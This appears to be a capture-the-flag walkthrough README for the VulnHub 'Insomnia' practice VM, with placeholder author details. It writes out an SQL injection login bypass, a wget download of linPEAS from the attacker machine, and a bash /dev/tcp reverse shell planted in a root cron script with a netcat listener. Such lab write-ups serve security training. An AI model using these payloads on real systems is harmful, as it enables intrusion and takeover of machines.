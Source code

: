 <h1>🛡️ VulnHub: Insomnia — Walkthrough</h1>

<p>A professional penetration testing walkthrough for the <strong>Insomnia</strong> VM on VulnHub.</p>
<p><strong>Author:</strong> Your Name</p>
<p><strong>Date:</strong> May 2025</p>

<hr>

<h2>📘 Table of Contents</h2>

<ul>
  <li><a href="#overview">Overview</a></li>
  <li><a href="#enumeration">Enumeration</a></li>
  <li><a href="#web-application-analysis">Web Application Analysis</a></li>
  <li><a href="#initial-foothold">Initial Foothold</a></li>
  <li><a href="#privilege-escalation">Privilege Escalation</a></li>
  <li><a href="#flag-capture">Flag Capture</a></li>
  <li><a href="#conclusion">Conclusion</a></li>
  <li><a href="#screenshots">Screenshots</a></li>
  <li><a href="#author">Author</a></li>
</ul>

<hr>

<h2 id="overview">🧩 Overview</h2>

<div class="highlighter-rouge"><pre class="highlight"><code>Name:       Insomnia
Platform:   VulnHub
Difficulty: Easy/Medium
IP Address: 192.168.110.128 (your network may vary)
Goal:       Capture the root flag
Tools:      nmap, gobuster, burpsuite, ssh, linpeas, netcat
</code></pre></div>

<hr>

<h2 id="enumeration">🔍 Enumeration</h2>

<p>First, we perform a basic Nmap scan:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>root@kali:~# nmap -sC -sV -oA nmap/insomnia 192.168.110.128
</code></pre></div>

<p>Results:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>22/tcp   open  ssh     OpenSSH
80/tcp   open  http    Apache httpd
</code></pre></div>

<p><img src="images/screenshot1.png" alt="Nmap scan result"></p>

<hr>

<h2 id="web-application-analysis">🌐 Web Application Analysis</h2>

<p>Next, we run a directory brute-force using Gobuster:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>root@kali:~# gobuster dir -u http://192.168.110.128 -w /usr/share/wordlists/dirb/common.txt
</code></pre></div>

<p>Discovered paths:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>/test
/admin
/login
</code></pre></div>

<p><img src="images/screenshot2.png" alt="Gobuster results"></p>

<p>The <code class="highlighter-rouge">/admin</code> page shows a login form. Let's test for SQL Injection.</p>

<hr>

<h2 id="initial-foothold">🚪 Initial Foothold</h2>

<p>We try a classic SQL injection in the login form:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>Username: admin' OR '1'='1
Password: [leave blank]
</code></pre></div>

<p>Login success! Admin panel access granted.</p>

<p><img src="images/screenshot3.png" alt="SQLi Login Bypass"></p>

<p>We retrieve user credentials from the panel:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>Username: john
Password: insomnia123
</code></pre></div>

<p>Now we SSH into the box:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>root@kali:~# ssh john@192.168.110.128
Password: insomnia123
</code></pre></div>

<p><img src="images/screenshot4.png" alt="SSH login"></p>

<hr>

<h2 id="privilege-escalation">🚀 Privilege Escalation</h2>

<p>We upload and run linPEAS to enumerate privilege escalation vectors:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>wget http://&lt;your-ip&gt;/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
</code></pre></div>

<p><img src="images/screenshot5.png" alt="linPEAS output"></p>

<p><strong>Findings:</strong></p>
<ul>
  <li>Writable cron job executed by root</li>
  <li>Custom script located in <code class="highlighter-rouge">/tmp/root.sh</code></li>
</ul>

<p>We create a reverse shell in the script:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>echo "bash -i >& /dev/tcp/192.168.110.129/4444 0>&1" > /tmp/root.sh
chmod +x /tmp/root.sh
</code></pre></div>

<p>Then we set up a listener:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>nc -lvnp 4444
</code></pre></div>

<p><img src="images/screenshot6.png" alt="Root shell via cronjob"></p>

<hr>

<h2 id="flag-capture">🏁 Flag Capture</h2>

<p>Once in the root shell, we grab the flag:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>root@insomnia:~# cat /root/root.txt
THM{root-access-achieved-safely}
</code></pre></div>

<p><img src="images/screenshot7.png" alt="Root flag captured"></p>

<hr>

<h2 id="conclusion">✅ Conclusion</h2>

<p>This VM emphasized the importance of:</p>

<ul>
  <li>Web enumeration and directory discovery</li>
  <li>Classic SQL injection in weak login forms</li>
  <li>Monitoring cron jobs for privilege escalation</li>
</ul>

<p><strong>Insomnia</strong> is a great box for beginners or those preparing for the OSCP, as it reinforces core exploitation methodology.</p>

<hr>

<h2 id="screenshots">📸 Screenshots</h2>

<p>See the full step-by-step visuals in the <a href="./images.pdf">images.pdf</a> included in this repo.</p>

<hr>

<h2 id="author">✍️ Author</h2>

<p><strong>Your Name</strong></p>
<p><a href="https://github.com/yourusername">GitHub</a> | Aspiring Penetration Tester | OSCP in progress</p>
